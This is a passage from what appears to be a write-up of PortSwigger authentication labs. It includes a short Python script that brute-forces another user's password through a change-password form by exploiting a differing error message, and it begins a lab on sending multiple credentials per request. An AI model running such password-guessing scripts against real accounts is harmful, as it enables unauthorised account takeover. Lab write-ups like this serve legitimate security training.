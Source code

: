 ![](../../.gitbook/assets/portswigger-auth-writeup-image-29.png)

When I used the wrong current password, it shows this instead:

![](../../.gitbook/assets/portswigger-auth-writeup-image-30.png)

That's a pretty easy vulnerability to script and exploit:

```python
cookies = {
	'session':'wiener-cookie'
}

passwords = open('pass.txt','r')
for p in passwords:
	data = {
	'username':'carlos',
	'current-password':p.strip(),
	'new-password-1':'1234',
	'new-password-2':'5678'
}
	r = requests.post(url + '/my-account/change-password', data=data, verify=False, proxies=proxies, cookies=cookies)
	
	if 'New passwords do not match' in r.text:
		print(f'[+] Password for carlos is {p}.')
		sys.exit(0)
```

## Lab 13: Multiple Creds per Request

To solve this lab, access the account of `carlos`. This lab uses JSON to send its login credentials:

![](../../.gitbook/assets/portswigger-auth-writeup-image-31.png)
